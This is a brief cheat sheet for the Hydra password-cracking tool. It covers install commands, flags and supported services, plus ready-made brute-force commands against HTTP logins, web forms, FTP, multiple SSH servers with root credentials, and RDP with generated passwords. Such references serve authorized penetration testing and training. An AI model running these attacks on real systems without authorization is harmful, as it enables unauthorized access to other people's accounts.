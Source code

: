 ```shell-session
sudo apt-get -y update
sudo apt-get -y install hydra 
```

Usage:
** hydra [login_options] [password_options] [attack_options] [service_options]

## Flags
-l LOGIN (single username) or -L FILE
-p PASS or -P FILE
-t TASKS (threads)
-f (stop attack after first successful login)
-s PORT
-v or -V (verbose)
service://server (ssh://192.168.1.100)
/OPT (http-get://exmaple.com/login.php -m "POST:user=^USER^&pass=^PASS^"

## Services
- ftp
- ssh
- http-get/post
- smtp
- pop3
- imap
- mysql
- mssql
- vnc
- rdp

## Brute-Forcing HTTP Authentication
```shell-session
hydra -L usernames.txt -P passwords.txt www.example.com http-get
```

## Targeting Multiple SSH Servers
```shell-session
hydra -l root -p toor -M targets.txt ssh
```

## Testing FTP Credentials on a Non-Standard Port
```shell-session
hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp
```

## Brute-Forcing a Web Login Form
```shell-session
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```

## Advanced RDP Brute-Forcing
```shell-session
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```
- This generates and test passwords ranging from 6 to 8 characters, using the specified character set.
